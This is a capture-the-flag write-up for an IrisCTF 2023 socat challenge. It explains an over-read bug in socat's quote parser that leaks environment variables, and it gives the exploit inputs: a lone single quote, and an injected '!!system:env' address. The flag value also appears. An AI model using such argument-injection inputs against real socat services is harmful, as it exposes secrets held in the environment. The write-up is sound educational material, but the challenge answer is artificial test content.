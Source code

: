 # 题目描述

I love sockets and cats and socat and ls

# 解决方案

这题考察的是socat的漏洞利用，需要熟悉socat，具体就是，只需输入单引号`'`或者`!!system:env`即可拿到flag，因为不熟悉socat，因此原理我也不太理解，[参考资料](https://github.com/Seraphin-/ctf/blob/master/irisctf2023/socat.md)如下：

The challenge runs your input as an argument to `socat`, a program that is able to relay data to/from different types of streams/sources. It's implemented as a shell script:
```sh
#!/bin/bash
echo -n "Give me your command: "
read -e -r input
input="exec:./chal ls $input"

# i have to give you stderr
FLAG="irisctf{they_even_fixed_it_for_unbalanced_double_quotes}" socat - "$input" 2>&0
```

The flag is passed as the first environment variable to `socat`, and socat is set up to execute a `chal` binary with the parameters `ls` and then the input taking the rest. The chal binary is a C program that just sets the FLAG env empty:
```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    if(argc < 2) return -1;
    if(setenv("FLAG", "NO!", 1) != 0) return -1;
    execvp(argv[1], argv+1);
    return 0;
}
```

The intended solution was to exploit a bug still in socat that caused an over-read of the command line into `envp`. The socat changelog mentions there was a bug fixed earlier where unbalanced `"` quotes would cause this behaviour.
```
Corrections:
    Socats address parser read over end of string when there were unbalanced
    quotes
    Test: UNBALANCED_QUOTE
```

The code for this check is implemented in `nestlex.c` as follows:
```c
/* check for soft quoting pattern */
quotx = squotes;
while (squotes && *quotx) {
    if (!strncmp(in, *quotx, strlen(*quotx))) { // if there's a " quote
        // ...
        result = _nestlex(/* ... */); // recursively call the lexer
        // ...
        if (result == 0 && dropquotes) {
           /* we strip the trailing quote */
           if (!in[0] || strncmp(in, *quotx, strlen(*quotx)))  return 1; // <---
           in += strlen(*quotx);
        } /* continue parsing input */
    }
}
```
The condition tries to drop the end quotes after the recursive parser is done. The marked line causes the parser to throw an error (return 1) if there is no more nested input to remove, or there's no more quotes in the input.

However, this fix was not applied just above:
```c
/* check for hard quoting pattern */
quotx = hquotes;
while (hquotes && *quotx) {
    if (!strncmp(in, *quotx, strlen(*quotx))) {
        // ...
        result = _nestlex(/* ... */); // recursively call the lexer
        // ...
        if (result == 0 && dropquotes) {
        if (result == 0 && dropquotes) {
            /* we strip this quote */
            in += strlen(*quotx);
            // ^^^ if input is the end (null), then it overreads the string by adding 1
        } /* continue parsing input */
    }       
}
```

We can exploit that just by sending an unclosed single quote:
```
Give me your command: '
ls: cannot access 'FLAG=irisctf{they_even_fixed_it_for_unbalanced_double_quotes}': No such file or directory
2023/01/09 11:43:29 socat[2] E waitpid(): child 3 exited with status 2
```

```
irisctf{they_even_fixed_it_for_unbalanced_double_quotes}
```

There was an unintended solution using `!!`. I thought I made a mistake in my bash allowing for a command escape, but it's actually a feature in socat - if you specify `!!`, socat will use the next text as another address specification that will be used for writing back out data to stdout! So `!!system:env` passes the output of ls to env first, which of course does not care about stdin and leaks the flag.


